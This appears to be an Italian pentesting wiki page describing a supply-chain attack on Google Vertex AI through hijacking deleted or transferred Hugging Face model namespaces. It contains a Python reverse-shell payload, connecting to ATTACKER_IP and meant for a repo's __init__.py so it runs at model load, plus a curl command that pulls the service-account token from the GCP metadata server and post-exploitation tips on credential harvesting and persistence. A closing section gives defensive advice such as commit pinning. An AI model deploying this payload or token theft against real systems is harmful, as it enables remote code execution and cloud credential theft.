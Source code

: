# GCP - Post-Exploitation di Vertex AI tramite riutilizzo del namespace dei modelli di Hugging Face

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Vertex AI Model Garden permette il deploy diretto di molti modelli di Hugging Face (HF).
- Gli identificatori dei modelli HF sono Author/ModelName. Se un author/org su HF viene eliminato, lo stesso nome author può essere ri-registrato da chiunque. Gli attacker possono quindi creare un repo con lo stesso ModelName sul percorso legacy.
- Pipelines, SDKs o cataloghi cloud che effettuano il fetch solo per nome (no pinning/integrity) scaricheranno il repo controllato dall'attacker. Quando il modello viene deployato, il loader code di quel repo può essere eseguito all'interno del container dell'endpoint Vertex AI, ottenendo RCE con i permessi dell'endpoint.

Due casi comuni di takeover su HF:
- Ownership deletion: il vecchio percorso restituisce 404 fino a quando qualcuno ri-registrerà l'author e pubblicherà lo stesso ModelName.
- Ownership transfer: HF emette 307 redirect dal vecchio Author/ModelName al nuovo author. Se il vecchio author viene poi eliminato e ri-registrato da un attacker, la catena di redirect viene interrotta e il repo dell'attacker viene servito al percorso legacy.

## Identificare namespace riutilizzabili (HF)

- Autore eliminato: la pagina dell'author restituisce 404; il percorso del modello potrebbe restituire 404 fino al takeover.
- Modelli trasferiti: il vecchio percorso del modello emette 307 verso il nuovo owner mentre il vecchio author esiste. Se il vecchio author viene poi eliminato e ri-registrato, il percorso legacy risolverà verso il repo dell'attacker.

Controlli rapidi con curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Flusso di attacco end-to-end contro Vertex AI

1) Scoprire namespace di modelli riutilizzabili che Model Garden elenca come deployable:
- Trovare modelli HF in Vertex AI Model Garden che mostrano ancora “verified deployable”.
- Verificare su HF se l'autore originale è stato cancellato o se il modello è stato trasferito e il vecchio author è stato rimosso in seguito.

2) Re-registrare l'Author cancellato su HF e ricreare lo stesso ModelName.

3) Pubblicare un repo maligno. Includere codice che venga eseguito al model load. Esempi che vengono comunemente eseguiti durante il caricamento del modello in HF:
- Effetti collaterali in __init__.py del repo
- Custom modeling_*.py o codice di processing referenziato da config/auto_map
- Percorsi di codice che richiedono trust_remote_code=True in Transformers pipelines

4) Una deployment di Vertex AI del legacy Author/ModelName ora esegue il pull del repo dell'attaccante. Il loader viene eseguito all'interno del container dell'endpoint di Vertex AI.

5) Il payload stabilisce accesso dall'ambiente dell'endpoint (RCE) con i permessi dell'endpoint.

Esempio di frammento di payload eseguito all'import (solo a scopo dimostrativo):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Note
- I loader reali variano. Molte integrazioni Vertex AI HF clonano e importano moduli del repo referenziati dalla config del modello (es., auto_map), il che può triggerare esecuzione di codice. Alcuni utilizzi richiedono trust_remote_code=True.
- L'endpoint tipicamente gira in un container dedicato con ambito limitato, ma rappresenta un valido foothold iniziale per l'accesso ai dati e il movimento laterale in GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Una volta che il codice è in esecuzione all'interno del container dell'endpoint, considera:
- Enumerare le variabili d'ambiente e i metadata per credenziali/token
- Accedere allo storage allegato o agli artefatti del modello montati
- Interagire con le Google API tramite l'identità dell'account di servizio (Document AI, Storage, Pub/Sub, etc.)
- Persistenza nell'artefatto del modello se la piattaforma ri-pulla il repo

Enumerare i metadata dell'istanza se accessibili (dipende dal container):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Linee guida difensive per gli utenti di Vertex AI

- Bloccare i modelli per commit in HF loaders per prevenire la sostituzione silenziosa:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Rispecchiare i modelli HF verificati in un artifact store/registry interno attendibile e distribuirli da lì.
- Eseguire scansioni continue di codebase e config per Author/ModelName hard-coded che siano stati cancellati/trasferiti; aggiornare ai nuovi namespace o effettuare pin tramite commit.
- In Model Garden, verificare la provenienza del modello e l'esistenza dell'author prima del deployment.

## Euristiche di riconoscimento (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Riferimenti incrociati

- Vedi metodologia più ampia e note sulla catena di fornitura:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Riferimenti

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
